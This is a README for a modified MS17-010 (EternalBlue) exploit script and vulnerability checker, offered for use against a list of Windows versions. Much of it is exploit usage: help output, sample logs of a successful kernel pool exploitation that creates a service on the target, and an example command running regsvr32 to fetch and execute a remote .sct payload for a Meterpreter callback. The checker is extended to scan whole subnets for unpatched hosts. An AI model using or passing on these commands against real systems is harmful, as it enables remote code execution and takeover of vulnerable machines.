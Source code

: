 # MS17-010: Python
All credit goes to Worawit: 

[Worawit Wang: GitHub](https://github.com/worawit/MS17-010/)

[Worawit Wang: Twitter](https://twitter.com/sleepya_/)

Worawit Wang released a collection of Python exploits for MS17-010. These tools worked far more reliably than the Metasploit modules but didn't have much of a payload besides writing a pwned.txt to the C:/. However, Worawit Wang did add functionality for creating a service. 

Korey McKinley wrote an [article](https://lmgsecurity.com/manually-exploiting-ms17-010/) utilising that function to create a service which used regsvr32 to call back to Meterpreter and create a full Meterpreter connection. I'd never seen that path to exploitation, so I thought I'd modify zzz_exploit.py with Korey's logic and make the script more dynamic and user friendly. 

However, the module Korey used in that blog article was not available in my version of Metasploit. It is now called **web_delivery**. 

The zzz_exploit.py found in this repo is the same exploit logic. But it has been made more dynamic. It is now possible to pass user and password with the -u and -p, respectively. A command to write to a service is passed with the -c option and the target and pipe are -t and -p. 

Logger.py is just a script I've been reusing with all my code to prettify output. If deleted, zzz will break :)

Here is the full help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```

Sample output:
```
> # python zzz_exploit.py -t 10.10.11.53                                                                                                                                                     
[08:50:24]  [INFO]:     TARGET: 10.10.11.53
[08:50:24]  [ACTION]:   CONNECTING TO TARGET...
[08:50:24]  [ACTION]:   GETTING TARGET OS...
[08:50:24]  [INFO]:     TARGET OS: Windows Server 2012 R2 Datacenter 9600
[08:50:24]  [ACTION]:   GETTING PIPE...
[08:50:25]  [INFO]:     USING PIPE: spoolss
[08:50:25]  [INFO]:     TARGET ARCHITECTURE: 64 bit
[08:50:25]  [INFO]:     FRAG SIZE: 0x20
[08:50:25]  [INFO]:     GROOM_POOL_SIZE: 0x5030
[08:50:25]  [INFO]:     BRIDE_TRANS_SIZE: 0xf90
[08:50:25]  [ERROR]:    No transaction struct in leak data
[08:50:25]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [ERROR]:    No transaction struct in leak data
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [ERROR]:    No transaction struct in leak data
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [INFO]:     CONNECTION: 0xffffe001c6257910
[08:50:26]  [INFO]:     SESSION: 0xffffc000fab68150
[08:50:26]  [INFO]:     FLINK: 0xffffc000fafcd098
[08:50:26]  [INFO]:     InParam: 0xffffc000faf9116c
[08:50:26]  [INFO]:     MID: 0x3903
[08:50:26]  [ERROR]:    unexpected alignment, diff: 0x3b098
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:27]  [INFO]:     CONNECTION: 0xffffe001c6257910
[08:50:27]  [INFO]:     SESSION: 0xffffc000fab68150
[08:50:27]  [INFO]:     FLINK: 0xffffc000fafd9098
[08:50:27]  [INFO]:     InParam: 0xffffc000fafd316c
[08:50:27]  [INFO]:     MID: 0x3a03
[08:50:27]  [SUCCESS]:  SUCCESS CONTROLLING GROOM TRANSACTION
[08:50:27]  [ACTION]:   MODIFYING TRANS1 STRUCT FOR READ/WRITE
[08:50:27]  [ACTION]:   CREATING SYSTEM SESSION TO SMB...
[08:50:28]  [ACTION]:   OVERWRITING SESSION SECURITY CONTEXT
[08:50:28]  [INFO]:     Writing command to service:
[08:50:28]  [ACTION]:   OPENING SVCManager ON 10.10.11.53...
[08:50:28]  [ACTION]:   CREATING SERVICE PKfJ...
[08:50:28]  [ACTION]:   STARTING SERVICE PKfJ...
[08:50:29]  [ERROR]:    SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.                    
[08:50:29]  [ACTION]:   REMOVING SERVICE PKfJ...
[08:50:29]  [SUCCESS]:  FINISHED!
```
I wrote an article using Korey's payload and the new changes to the script, please see it [here](https://mez0.cc/posts/weaponised-worawit.html)


I made similar changes to checker.py, but the only additional logic I added was to be able to effectively run this script across a subnet. I imported the **netaddr** module and wrote a short for loop to run across the subnet.

Here is the help page for checker.py:

```
➜  MS17-010_WORAWIT git:(master) ✗ python checker.py --help         
usage: checker.py [-h] [-u] [-p] -t  [--version]

MS17-010 Checker script

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target to check for MS17-010
  --version         show program's version number and exit

Example: python checker.py -t 192.168.0.1
```
Sample output:
```
> # python checker.py -t 10.10.11.53                                                                                                                                                         
[08:37:25]  [INFO]: 	CONNECTED TO 10.10.11.53
[08:37:25]  [INFO]: 	TARGET OS: Windows Server 2012 R2 Datacenter 9600
[08:37:25]  [SUCCESS]: 	10.10.11.53 IS NOT PATCHED!
[08:37:25]  [ACTION]: 	CHECKING NAMED PIPES...
[08:37:25]  [SUCCESS]: 	spoolss: OK (64 bit)
[08:37:26]  [SUCCESS]: 	samr: OK (64 bit)
[08:37:26]  [SUCCESS]: 	netlogon: OK (64 bit)
[08:37:26]  [SUCCESS]: 	lsarpc: OK (64 bit)
[08:37:26]  [ERROR]: 	browser: STATUS_OBJECT_NAME_NOT_FOUND

```

Any further ideas, changes or fixes; please let me know!
